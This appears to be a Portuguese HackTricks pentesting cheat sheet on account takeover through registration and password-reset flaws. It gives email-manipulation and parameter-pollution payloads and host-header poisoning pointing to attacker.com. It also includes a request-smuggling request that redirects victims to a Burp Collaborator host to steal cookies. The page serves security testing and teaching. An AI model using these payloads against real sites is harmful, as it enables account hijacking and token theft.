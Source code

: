 # Vulnerabilidades de Registro e Assunção de Controle

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira [**produtos oficiais PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Assunção de Controle de Registro

### Registro Duplicado

* Tente gerar usando um nome de usuário existente
* Verifique variando o e-mail:
  * maiúsculas
  * \+1@
  * adicione algum ponto no e-mail
  * caracteres especiais no nome do e-mail (%00, %09, %20)
  * Coloque caracteres em branco após o e-mail: `test@test.com a`
  * victim@gmail.com@attacker.com
  * victim@attacker.com@gmail.com

### Enumeração de Nome de Usuário

Verifique se é possível descobrir quando um nome de usuário já foi registrado dentro da aplicação.

### Política de Senhas

Ao criar um usuário, verifique a política de senhas (verifique se é possível usar senhas fracas).\
Nesse caso, você pode tentar forçar credenciais.

### Injeção de SQL

[**Verifique esta página**](sql-injection/#insert-statement) para aprender como tentar assumir contas ou extrair informações via **Injeções de SQL** em formulários de registro.

### Assunção de Controle Oauth

{% content-ref url="oauth-to-account-takeover.md" %}
[oauth-to-account-takeover.md](oauth-to-account-takeover.md)
{% endcontent-ref %}

### Vulnerabilidades SAML

{% content-ref url="saml-attacks/" %}
[saml-attacks](saml-attacks/)
{% endcontent-ref %}

### Alterar E-mail

Após o registro, tente alterar o e-mail e verifique se essa alteração é validada corretamente ou se pode ser alterada para e-mails arbitrários.

### Mais Verificações

* Verifique se é possível usar **e-mails descartáveis**
* **Senha longa** (>200) leva a **DoS**
* **Verifique limites de taxa na criação de contas**
* Use username@**burp\_collab**.net e analise o **callback**

## **Assunção de Controle de Redefinição de Senha**

### Vazamento de Token de Redefinição de Senha Via Referenciador <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. Solicite a redefinição de senha para o seu endereço de e-mail
2. Clique no link de redefinição de senha
3. Não altere a senha
4. Clique em qualquer site de terceiros (por exemplo: Facebook, Twitter)
5. Interceptar a solicitação no proxy Burp Suite
6. Verifique se o cabeçalho referer está vazando o token de redefinição de senha.

### Envenenamento de Redefinição de Senha <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Interceptar a solicitação de redefinição de senha no Burp Suite
2. Adicione ou edite os seguintes cabeçalhos no Burp Suite: `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Encaminhe a solicitação com o cabeçalho modificado\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. Procure por uma URL de redefinição de senha com base no _host header_ como: `https://attacker.com/reset-password.php?token=TOKEN`

### Redefinição de Senha Via Parâmetro de E-mail <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR em Parâmetros da API <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. O atacante deve fazer login com sua conta e acessar a funcionalidade de **Alterar senha**.
2. Inicie o Burp Suite e Interceptar a requisição.
3. Envie-a para a aba repeater e edite os parâmetros: ID do Usuário/email\
`powershell POST /api/changepass [...] ("form": {"email":"vítima@email.com","password":"senhasegura"})`

### Token de Redefinição de Senha Fraco <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

O token de redefinição de senha deve ser gerado aleatoriamente e único a cada vez.\
Tente determinar se o token expira ou se é sempre o mesmo, em alguns casos, o algoritmo de geração é fraco e pode ser adivinhado. As seguintes variáveis podem ser usadas pelo algoritmo.

* Timestamp
* ID do Usuário
* E-mail do Usuário
* Nome e Sobrenome
* Data de Nascimento
* Criptografia
* Apenas números
* Sequência de token pequena (caracteres entre \[A-Z,a-z,0-9])
* Reutilização de Token
* Data de expiração do Token

### Vazamento de Token de Redefinição de Senha <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. Inicie uma solicitação de redefinição de senha usando a API/UI para um e-mail específico, por exemplo: test@mail.com
2. Inspecione a resposta do servidor e verifique o `resetToken`
3. Em seguida, use o token em uma URL como `https://exemplo.com/v3/user/password/reset?resetToken=[O_RESET_TOKEN]&email=[O_EMAIL]`

### Redefinição de Senha Via Colisão de Nome de Usuário <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. Registre-se no sistema com um nome de usuário idêntico ao nome de usuário da vítima, mas com espaços em branco inseridos antes e/ou depois do nome de usuário. por exemplo: `"admin "`
2. Solicite uma redefinição de senha com seu nome de usuário malicioso.
3. Use o token enviado para seu e-mail e redefina a senha da vítima.
4. Conecte-se à conta da vítima com a nova senha.

A plataforma CTFd estava vulnerável a esse ataque.\
Veja: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Assunção de Conta Via Cross Site Scripting <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. Encontre um XSS dentro do aplicativo ou de um subdomínio se os cookies estiverem limitados ao domínio pai: `*.dominio.com`
2. Vaze o **cookie de sessões** atual
3. Autentique-se como o usuário usando o cookie

### Assunção de Conta Via HTTP Request Smuggling <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1. Use o **smuggler** para detectar o tipo de HTTP Request Smuggling (CL, TE, CL.TE)\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2. Crie uma requisição que sobrescreverá o `POST / HTTP/1.1` com os seguintes dados:\
`GET http://algo.burpcollaborator.net HTTP/1.1 X:` com o objetivo de redirecionar os alvos para o burpcollab e roubar seus cookies\
3. A requisição final pode se parecer com o seguinte:
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
### Relatórios do Hackerone explorando esse bug\
* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### Assumir Conta via CSRF <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. Criar um payload para o CSRF, por exemplo: "Formulário HTML com envio automático para alteração de senha"
2. Enviar o payload

### Assumir Conta via JWT <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

O Token JSON Web pode ser usado para autenticar um usuário.

* Editar o JWT com outro ID de Usuário / E-mail
* Verificar a assinatura fraca do JWT

{% content-ref url="hacking-jwt-json-web-tokens.md" %}
[hacking-jwt-json-web-tokens.md](hacking-jwt-json-web-tokens.md)
{% endcontent-ref %}

## Referências

* [https://salmonsec.com/cheatsheet/account\_takeover](https://salmonsec.com/cheatsheet/account\_takeover)

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
